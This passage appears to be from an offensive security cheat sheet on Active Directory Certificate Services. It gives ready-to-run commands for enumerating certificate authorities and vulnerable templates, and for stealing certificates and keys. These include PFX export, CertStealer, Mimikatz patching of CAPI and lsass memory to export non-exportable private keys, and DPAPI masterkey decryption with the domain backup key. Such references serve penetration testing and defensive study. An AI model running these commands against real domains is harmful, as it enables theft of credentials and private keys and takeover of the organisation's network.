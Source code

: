 Enumerate AD Enterprise CAs with certutil from a domain-joined machine:

```
Cmd > certutil.exe -config - -ping
Cmd > certutil.exe -TCAInfo [-v]
```

Look for artefacts in RPC dumps like [adcshunter](https://github.com/danti1988/adcshunter) does:

```
$ rpcdump.py <IP> | grep certsrv.exe
```

Enumerate CAs and templates with [powerview.py](https://github.com/aniqfakhrul/powerview.py):

```
PS > Get-CA [-Domain megacorp.local] -CheckWebEnrollment [-NoWrap] -OutFile cas_megacorp.local.txt
PS > Get-CATemplate [-Domain megacorp.local] -Enabled -ResolveSIDs [-Vulnerable] [-NoWrap] -OutFile certs_megacorp.local.txt
```




## Hunt for Certificates



### Export Certificates (THEFT1)

Export a certificate from user's context.

With certmgr:

* Run → `certmgr.msc` → Action → All Tasks → Export ...

With PowerShell:

```
PS > Export-PfxCertificate -Password (Read-Host -AsSecureString -Prompt 'Password') -Cert (Get-Item -Path Cert:\LocalMachine\My\<CERT_THUMBPRINT>) -FilePath cert.pfx -Verbose
```

With [CertStealer](https://github.com/TheWover/CertStealer):

```
Cmd > .\CertStealer.exe -export pfx <CERT_THUMBPRINT>
```

If the private key is non-exportable, use Mimikatz's `crypto::capi` (to patch CAPI in current process) or `crypto::cng` (to patch `lsass.exe` memory):

```
Cmd > .\mimikatz.exe "crypto::capi" "crypto::certificates /export" "exit"
```



### DPAPI User Keys (THEFT2)

Decrypt a domain user's masterkey with domain's backup key with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /rpc" "exit"
```
